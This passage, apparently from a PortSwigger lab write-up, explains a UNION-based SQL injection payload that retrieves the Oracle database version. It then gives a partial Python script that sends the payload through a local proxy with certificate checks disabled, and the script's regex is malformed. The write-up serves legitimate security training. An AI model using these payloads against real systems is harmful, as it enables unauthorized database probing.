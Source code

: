 In this lab, we have to find out the oracle database version, for this case first we must know how many columns the table has, in this case we can see 2 columns, since only the title and the description of the article are shown, then we use our [cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) to make the corresponding query, so the payload in the URL will be: `'UNION SELECT 'VERSION', banner FROM v$version --`.
And the query will look something like this:

```sql
SELECT * FROM PRODUCTS WHERE category='Gifts'UNION SELECT 'VERSION', banner FROM v$version --
```
It will retrieve the database version

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/sqli10.jpg)

### Lab 7 - Python Script

With this script we will query the web server and parse the information with the help of the bs4 library that contains BeautifulSoup to find the Oracle Database word, if it finds it we can say that the sql injection has been successful.

```python
import requests
import sys
import urllib3
from bs4 import BeautifulSoup
import re

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080', 'https':'https://127.0.0.1:8080'}
def exploit_sqli(url,payload):
    uri="category?=Lifestyle"
    print("The url for request is: {url}--".format(url=url+uri+payload))
    r=requests.get(url+uri+payload+"--", verify=False, proxies=proxies)
    if 'Oracle Database' in r.text:
        print("Found database version")
        parsed=BeautifulSoup(r.text,'html.parser')
        version=parsed.find(text=re.compile('*.Oracle\sDatabase.*'))
        print(f'The oracle database version is {version}'.format(version=version))
        return True
    return False

if __name__=="__main__":
    try:
        url = sys.argv[1].strip()
        payload = "'UNION SELECT 'VERSION', banner FROM v$version"
```